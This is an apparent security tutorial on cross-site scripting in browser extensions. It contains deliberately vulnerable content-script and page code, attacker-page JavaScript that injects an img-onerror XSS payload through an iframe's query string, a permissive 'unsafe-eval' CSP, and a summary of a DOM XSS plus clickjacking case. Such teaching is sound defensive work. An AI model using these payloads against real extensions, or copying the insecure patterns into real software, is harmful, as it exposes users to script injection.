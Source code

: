 # BrowExt - XSS Example





## Cross-Site Scripting (XSS) through Iframe

In this setup, a **content script** is implemented to instantiate an Iframe, incorporating a URL with query parameters as the source of the Iframe:

```javascript
chrome.storage.local.get("message", result => {
  let constructedURL = chrome.runtime.getURL("message.html") +
    "?content=" + encodeURIComponent(result.message) +
    "&redirect=https://example.net/details";
  frame.src = constructedURL;
});
```

A publicly accessible HTML page, **`message.html`**, is designed to dynamically add content to the document body based on the parameters in the URL:

```javascript
$(document).ready(() => {
  let urlParams = new URLSearchParams(window.location.search);
  let userContent = urlParams.get("content");
  $(document.body).html(`${userContent} <button id='detailBtn'>Details</button>`);
  $('#detailBtn').on('click', () => {
    let destinationURL = urlParams.get("redirect");
    chrome.tabs.create({ url: destinationURL });
  });
});
```

A malicious script is executed on an adversary's page, modifying the `content` parameter of the Iframe's source to introduce a **XSS payload**. This is achieved by updating the Iframe's source to include a harmful script:

```javascript
setTimeout(() => {
  let targetFrame = document.querySelector("iframe").src;
  let baseURL = targetFrame.split('?')[0];
  let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>";
  let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`;

  document.querySelector("iframe").src = maliciousURL;
}, 1000);
```

An overly permissive Content Security Policy such as:

```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```

allows the execution of JavaScript, making the system vulnerable to XSS attacks.

An alternative approach to provoke the XSS involves creating an Iframe element and setting its source to include the harmful script as the `content` parameter:

```javascript
let newFrame = document.createElement("iframe");
newFrame.src = "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
  encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>");
document.body.append(newFrame);
```

## DOM-based XSS + ClickJacking

This example was taken from the [original post writeup](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/).

The core issue arises from a DOM-based Cross-site Scripting (XSS) vulnerability located in **`/html/bookmarks.html`**. The problematic JavaScript, part of **`bookmarks.js`**, is detailed below:

```javascript
$('#btAdd').on('click', function() {
    var bookmarkName = $('#txtName').val();
    if ($('.custom-button .label').filter(function() {
        return $(this).text() === bookmarkName;
    }).length) return false;

    var bookmarkItem = $('<div class="custom-button">');
    bookmarkItem.html('<span class="label">' + bookmarkName + '</span>');
    bookmarkItem.append('<button class="remove-btn" title="delete">x</button>');
    bookmarkItem.attr('data-title', bookmarkName);
    bookmarkItem.data('timestamp', (new Date().getTime()));
    $('section.bookmark-container .existing-items').append(bookmarkItem);
    persistData();
});
```

This snippet fetches the **value** from the **`txtName`** input field and uses **string concatenation to generate HTML**, which is then appended to the DOM using jQuery’s `.append()` function.

Typically, the Chrome extension's Content Security Policy (CSP) would prevent such vulnerabilities. However, due to **CSP relaxation with ‘unsafe-eval’** and the use of jQuery’s DOM manipulation methods (which employ [`globalEval()`](https://api.jquery.com/jquery.globaleval/) to pass scripts to [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) upon DOM insertion), exploitation is still possible.

While this vulnerability is significant, its exploitation is usually contingent on user interaction: visiting the page, entering an XSS payload, and activating the “Add” button.

To enhance this vulnerability, a secondary **clickjacking** vulnerability is exploited. The Chrome extension's manifest showcases an extensive `web_accessible_resources` policy:

```json
"web_accessible_resources": [
    "html/bookmarks.html",
    "dist/*",
    "assets/*",
    "font/*",
    [...]
],
```

Notably, the **`/html/bookmarks.html`** page is prone to framing, thus vulnerable to **clickjacking**. This vulnerability is leveraged to frame the page within an attacker’s site, overlaying it with DOM elements to redesign the interface deceptively. This manipulation leads victims to interact with the underlying extension unintentionally.

## References

* [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
* [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)




